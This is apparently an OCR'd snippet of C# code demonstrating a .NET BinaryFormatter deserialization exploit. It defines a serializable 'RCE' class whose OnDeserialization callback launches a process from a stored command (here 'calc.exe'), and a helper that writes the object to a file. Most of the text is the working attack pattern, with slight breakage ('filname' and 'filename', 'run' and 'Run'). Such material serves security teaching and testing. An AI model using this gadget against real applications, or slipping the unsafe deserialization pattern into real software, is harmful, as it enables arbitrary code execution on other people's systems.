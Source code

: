 ```cs

        public static void deleteFile(string filname)
        {
            if (File.Exists(filename))
            {
                Console.WriteLine("Deleting old file");
                File.Delete(filename);
            }
        }     

        public static void desertSerial(string filename)
        {
            // Create desert name
            var desert = new RCE();
            desert.cmd = "calc.exe";
            // Persist to file
            FileStream stream = File.Create(filename);
            var formatter = new BinaryFormatter();
            Console.WriteLine("Serializing desert (RCE)");
            formatter.Serialize(stream, desert);
            stream.Close();
        }

    }

    [Serializable]
    public class RCE : IDeserializationCallback
    {
        private String _cmd;
        public String cmd
        {
            get { return _cmd; }
            set
            {
                _cmd = value;
                //run(); Disabled to avoid spawning a calc while serializing 
            }
        }

        private void run()
        {
            System.Diagnostics.Process p = new System.Diagnostics.Process();
            p.StartInfo.FileName = _cmd;
            p.Start();
            p.Dispose();
        }

        public void OnDeserialization(object sender) {
            Run();
        }
    }
}
```
